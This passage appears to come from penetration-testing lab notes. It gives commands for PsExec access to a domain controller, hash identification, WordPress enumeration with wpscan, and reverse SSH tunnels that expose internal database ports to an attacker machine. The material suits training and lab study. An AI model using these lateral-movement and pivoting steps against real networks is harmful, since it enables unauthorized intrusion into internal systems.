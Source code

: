 Now we can launch a command prompt on the domain controller using `psexec` like so:

```sh
C:\Windows\system32>cd C:\Tools\active_directory

C:\Tools\active_directory>PsExec.exe \\dc01 cmd.exe

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
corp\fakeuser
```

## Password cracking

### Hash identifier

```sh
hash-identifier AAFDC23870ECBCD3D557B6423A8982134E17927E
```

## Wordpress scanning

The following command saves the output to a file `sandbox-wpscan`

```sh
wpscan --url sandbox.local --enumerate ap,at,cb,dbe -o sandbox-wpscan -f cli-no-color
```

## Tunneling

### SSH tunnel

To create a tunnel with a middle-machine that can access both internal network and external network where the attacking machine's IP is `192.168.119.194` and the IP for the internal database is `10.5.5.11` (with ports 22 and 3306 open) and the remote machine's IP is `10.11.1.250`

On the remote machine, run either:

1. Interactive (allows for password entering)
    ```sh
    ssh -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" omar2535@192.168.119.194
    ```
or

2. Non-interactive (using SSH key)
    ```sh
    ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa omar2535@192.168.119.194
    ```
